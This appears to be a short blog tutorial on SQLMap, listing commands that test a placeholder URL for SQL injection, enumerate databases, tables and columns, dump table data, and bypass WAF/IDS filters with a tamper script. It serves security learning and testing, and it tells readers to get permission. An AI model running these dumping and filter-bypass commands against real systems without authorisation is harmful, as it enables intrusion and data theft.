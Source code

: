 +++
categories = ["sql-injection", "white-hat", "hacker"]
date = 2024-07-06T23:22:28Z
description = ""
draft = false
image = "https://images.unsplash.com/photo-1622445275576-721325763afe?crop=entropy&cs=tinysrgb&fit=max&fm=jpg&ixid=M3wxMTc3M3wwfDF8c2VhcmNofDF8fFdoaXRlJTIwaGF0fGVufDB8fHx8MTcyMDMwMjk0MHww&ixlib=rb-4.0.3&q=80&w=2000"
slug = "sql-injection-with-sqlmap"
tags = ["sql-injection", "white-hat", "hacker"]
title = "SQL Injection with SQLMap #whitehat"

+++


SQLMap is a powerful and popular open-source tool used to detect and exploit SQL injection vulnerabilities.

Let's dive into a basic usage of SQLMap.

## Pre-Requirements

#### Linux Installation

```bash
sudo apt-get install sqlmap
```

#### Windows Installation

* Download and install from SQLMap from the [official website](https://sqlmap.org/)

{{< figure src="https://res-3.cloudinary.com/dgoa5llvh/image/upload/q_auto/sql-maps.png" caption="SQL Map" >}}

## Basic Usage

In the terminal or command prompt. Run SQLMap with a target URL that is suspected of being vulnerable to SQL injection:

```bash
sqlmap -u "http://example.com/page?id=1"
```

#### Basic Options

* `-u URL, --url=URL`: Specifies the URL to test.
* `--data`: Specifies data for POST requests.
* `-p`: Specifies the parameter to test (if the URL has multiple parameters).
* `--dbs`: Enumerates databases.
* `-D`: Specifies a database to use with other options (e.g., dump tables).
* `--tables`: Enumerates tables in the specified database.
* `-T`: Specifies a table to use with other options (e.g., dump columns).
* `--columns`: Enumerates columns in the specified table.
* `--dump`: Dumps the data from the specified table or columns.

## Commands

Testing for Vulnerability.

```bash
sqlmap -u "http://example.com/page?id=1"
```

Enumerating Databases.

```bash
sqlmap -u "http://example.com/page?id=1" --dbs
```

Enumerating Tables in a Database.

```bash
sqlmap -u "http://example.com/page?id=1" -D database_name --tables
```

Enumerating Columns in a Table.

```bash
sqlmap -u "http://example.com/page?id=1" -D database_name -T table_name --columns
```

Dumping Data from a Table.

```bash
sqlmap -u "http://example.com/page?id=1" -D database_name -T table_name --dump
```

## Advanced Usage

Posting Data.

```bash
sqlmap -u "http://example.com/login" --data="username=user&password=pass"
```

Specify Parameter to Test.

```bash
sqlmap -u "http://example.com/page?param1=1&param2=2" -p param1
```

Bypass WAF/IDS.

```bash
sqlmap -u "http://example.com/page?id=1" --tamper=space2comment
```

## Tips

* Always ensure you have permission to test the target
* Use tamper scripts to bypass security filters (e.g., `--tamper=space2comment`)
* Combine options for more comprehensive testing

For more detailed usage and advanced options, refer to the [SQLMap official documentation](https://github.com/sqlmapproject/sqlmap/wiki/Usage).

